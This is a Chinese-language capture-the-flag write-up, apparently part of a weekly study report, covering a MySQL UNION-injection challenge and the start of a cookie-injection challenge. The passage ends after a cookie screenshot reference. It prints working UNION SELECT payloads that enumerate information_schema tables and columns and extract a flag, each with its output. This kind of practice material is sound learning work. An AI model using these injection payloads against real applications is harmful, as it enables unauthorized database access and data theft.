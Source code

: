 ## CTFSHOW

### Web

#### MYSQL结构

```
?id=0 union select 1, group_concat(table_name) from information_schema.tables where table_schema=database()
```

查表返回 ：

```
ID: 1
Data: temblfseht,news
```

查询字段名：

```
?id=0 union select 1, group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='temblfseht'
```

返回：

```
ID: 1
Data: qkjjcjpwmt
```

查询qkjjcjpwmt数据：

```
?id=0 union select 1, group_concat(qkjjcjpwmt) from temblfseht 
```

返回：

```
ID: 1
Data: ctfhub{5a2321478157f07eebb0093b}
```

做完了发现有点奇怪，这不就是普普通通的联合注入吗，为什么又单独成为一道题？

#### Cookie注入

打开提示：`这次的输入点变了。尝试找找Cookie吧`

观察cookie发现：

![1732533678857](image/1124-1130周报/1732533678857.png)

hint解码：

